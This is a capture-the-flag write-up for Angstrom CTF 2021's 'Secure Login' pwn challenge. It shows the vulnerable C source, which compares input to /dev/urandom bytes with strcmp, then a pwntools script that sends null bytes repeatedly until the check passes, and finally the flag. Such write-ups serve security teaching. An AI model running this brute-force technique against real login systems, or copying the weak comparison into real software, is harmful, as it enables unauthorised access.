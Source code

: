 ```yaml
---
name: Secure Login (2021)
event: Angstrom CTF 2021
category: Pwn
description: Writeup for Secure Login (pwn) - Angstrom CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Secure Login

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/2pqG6opzrug/0.jpg)](https://youtu.be/2pqG6opzrug?t=23s "Angstrom 2021: Secure Login")

## Challenge Description

> My login is, potentially, and I don't say this lightly, if you know me you know that's the truth, it's truly, and no this isn't snake oil, this is, no joke, the most secure login service in the world (source).

## Source

{% code overflow="wrap" %}
```c
#include <stdio.h>

char password[128];

void generate_password() {
	FILE *file = fopen("/dev/urandom","r");
	fgets(password, 128, file);
	fclose(file);
}

void main() {
	puts("Welcome to my ultra secure login service!");

	// no way they can guess my password if it's random!
	generate_password();

	char input[128];
	printf("Enter the password: ");
	fgets(input, 128, stdin);

	if (strcmp(input, password) == 0) {
		char flag[128];

		FILE *file = fopen("flag.txt","r");
		if (!file) {
		    puts("Error: missing flag.txt.");
		    exit(1);
		}

		fgets(flag, 128, file);
		puts(flag);
	} else {
		puts("Wrong!");
	}
}
```
{% endcode %}

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './login'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'warn'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Run program 1000 times (hoping for null byte)
for i in range(1000):
    io = start()
    io.recv()
    # Try to login with null byte
    io.sendline(b"\x00")
    io.recvuntil(': ')
    response = io.recv()
    # Did we get the flag?
    if(not b'Wrong!' in response):
        print(response)
    io.close()
```
{% endcode %}

Flag: `actf{if_youre_reading_this_ive_been_hacked}`
